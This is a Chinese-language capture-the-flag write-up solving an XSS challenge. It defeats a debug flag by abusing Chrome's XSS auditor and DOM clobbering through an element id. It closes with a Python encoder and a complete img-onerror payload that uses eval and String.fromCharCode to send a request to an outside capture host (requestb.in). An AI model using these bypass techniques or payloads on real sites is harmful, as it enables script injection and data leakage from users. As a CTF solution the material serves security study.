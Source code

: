 最叼的是这个人通过猜测几乎复现了题目的源码，有兴趣可以去试试。
稍微测试可以发现`<>'"`被过滤，然后username会被放在id和内容两个地方，text这里有一个关于debug的判断
```
<body>
    <div><h3>to be checked</h3></div>
    <script>var debug=false;</script>
    <div id="dsadsa">
        <h2>dsadsa</h2>
    </div>
    <div id="text">dsadsa</div>
    <script>
    data = "dsadsa"
    t = document.getElementById("text")
    if(debug){
        t.innerHTML=data
    }else{
        t.innerText=data
    }
    </script>



</body>

```
有个提示是boss使用的是chrome，本来以为chrome这个是常规环境，其实这里用了一个黑魔法。
关于[chrome xss auditor](https://www.virtuesecurity.com/blog/understanding-xss-auditor/)
**Before rendering the response in the Document Object Model presented to the user, XSS auditor searches for instances of (malicious) parameters sent in the original request. If a detection is positive, the auditor is triggered and the response is "rewritten" to a non-executable state in the browser DOM.**

或许你英文不好，我也是看的半知半解，上面这话的意思就是chrome会检测你的请求，如果有类似于`<script>var debug=false</script>`这样的请求，chrome会把这个初始化忽视掉，我们不仅需要忽视这个变量，还需要初始化一下，这里就需要username这里会把传入的值放入id的问题了。

我们需要构造`<div id="debug">`至于这里为什么构造id就可以初始化debug的问题，也是比较神奇的。

[http://stackoverflow.com/questions/3434278/do-dom-tree-elements-with-ids-become-global-variables](http://stackoverflow.com/questions/3434278/do-dom-tree-elements-with-ids-become-global-variables)

没有很看懂，但是，大概明白debug被初始化一个对象，这样可以调用Orz。

前面的问题都解决了，下面就是要构造domxss请求了。
```
payload = 'xmlhttp=new XMLHttpRequest();xmlhttp.open("GET","http://requestb.in/xxxx",false);xmlhttp.send();'
out = []
for s in payload:
 	out.append(str(ord(s)))

print "\\x3cimg src=a onerror=\\u0022eval(String.fromCharCode("+", ".join(out)+"))\\u0022\\x3e"
```
由于单引号和双引号被过滤，所以需要用eval+string.fromCharCode的方式来过请求了。
```
Secret:
random_characters_must_be_unique<script>var debug=false;</script>

Username:
debug

Message:
\x3cimg src=a onerror=\u0022eval(String.fromCharCode(120, 109, 108, 104, 116, 116, 112, 61, 110, 101, 119, 32, 88, 77, 76, 72, 116, 116, 112, 82, 101, 113, 117, 101, 115, 116, 40, 41, 59, 120, 109, 108, 104, 116, 116, 112, 46, 111, 112, 101, 110, 40, 34, 71, 69, 84, 34, 44, 34, 104, 116, 116, 112, 58, 47, 47, 114, 101, 113, 117, 101, 115, 116, 98, 46, 105, 110, 47, 120, 120, 120, 120, 34, 44, 102, 97, 108, 115, 101, 41, 59, 120, 109, 108, 104, 116, 116, 112, 46, 115, 101, 110, 100, 40, 41, 59))\u0022\x3e
```